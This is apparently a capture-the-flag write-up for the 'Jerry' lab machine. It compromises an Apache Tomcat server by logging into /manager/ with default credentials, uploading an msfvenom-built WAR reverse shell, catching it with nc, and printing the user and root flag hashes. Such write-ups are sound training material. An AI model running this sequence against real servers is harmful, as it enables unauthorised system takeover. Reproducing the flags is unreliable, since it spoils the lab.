

# Resolution summary

>[!summary]
>- **Default credentials** allowed to obtain administrative access to the **/manager/** area of the **tomcat** server
>- **Arbitrary WAR upload** allowed to obtain a high privileged reverse shell
>- No privilege escalation was required because tomcat was running with high privileges

## Improved skills

- Exploiting tomcat

## Used tools

- nmap
- gobuster
- msfvenom

---

# Information Gathering

Scanned all TCP ports:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Jerry]
└─$ sudo nmap -p- 10.10.10.95 -sS -Pn -oN scans/all-tcp-ports.txt -v
...
PORT     STATE SERVICE
8080/tcp open  http-proxy
```

Enumerated open TCP ports:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Jerry]
└─$ sudo nmap -p8080 10.10.10.95 -sT -sV -sC -Pn -oN scans/open-tcp-ports.txt -v
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
...
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
...
```

# Enumeration

## Port 8080 - HTTP (Apache Tomcat 7.0.88)

Enumerated port 8080 using a web browser:


Enumerated web directories and files:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Jerry]
└─$ gobuster dir -u http://10.10.10.95:8080 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -o p80-directories.txt -f -r
...
/docs/                (Status: 200) [Size: 19677]
/manager/             (Status: 401) [Size: 2536] 
/examples/            (Status: 200) [Size: 1285]
```

### Accessed /manager/ using default credentials




# Exploitation

## Arbitrary WAR Upload using default credentials

Generated WAR reverse shell:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Jerry/exploit]
└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.24 LPORT=10099 -f war -o maoutis.war
Payload size: 1086 bytes
Final size of war file: 1086 bytes
Saved as: maoutis.war
```

Uploaded and executed the arbitrary WAR:


Triggered the reverse shell:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Jerry/exploit]
└─$ curl http://10.10.10.95:8080/maoutis/
```

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Jerry/exploit]
└─$ nc -nlvp 10099

listening on [any] 10099 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.95] 49197
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>cd C:\Users\Administrator\Desktop\flags\
cd C:\Users\Administrator\Desktop\flags\

C:\Users\Administrator\Desktop\flags>whoami && hostname && type 2* && ipconfig
whoami && hostname && type 2* && ipconfig
nt authority\system
JERRY
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
Windows IP Configuration

Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . :
   IPv4 Address. . . . . . . . . . . : 10.10.10.95
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.10.10.2

Tunnel adapter isatap.{4C9FEAFE-6811-4938-BFB6-5A3280613EF9}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . :
```


# Trophy

>[!quote]
>Life is incomplete without enemies
>
>\- Tom & Jerry

>[!success]
>**User.txt**
>7004dbcef0f854e0fb401875f26ebd00

>[!success]
>**Root.txt**
>04a8b36e1545a455393d067e772fe90e

